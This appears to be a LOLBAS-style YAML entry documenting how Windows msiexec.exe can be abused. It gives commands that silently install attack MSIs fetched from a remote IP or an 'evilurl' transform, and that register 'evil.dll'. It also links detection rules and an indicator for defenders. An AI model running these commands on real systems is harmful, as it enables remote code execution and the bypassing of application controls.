 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DLLUnregisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
  - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a Transformfile will be used, which can contains malicious code or binaries. The /qb will skip user input.
    Usecase: Install trusted and signed msi file, with additional attack code as Treansorm file, from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_web_install.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_msiexec_masquerading.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/uninstall_app_using_msiexec.yml
  - IOC: msiexec.exe retrieving files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
  - Link: https://badoption.eu/blog/2023/10/03/MSIFortune.html
Acknowledgement:
  - Person: netbiosX
    Handle: '@netbiosX'
  - Person: Philip Tsukerman
    Handle: '@PhilipTsukerman'
---
```

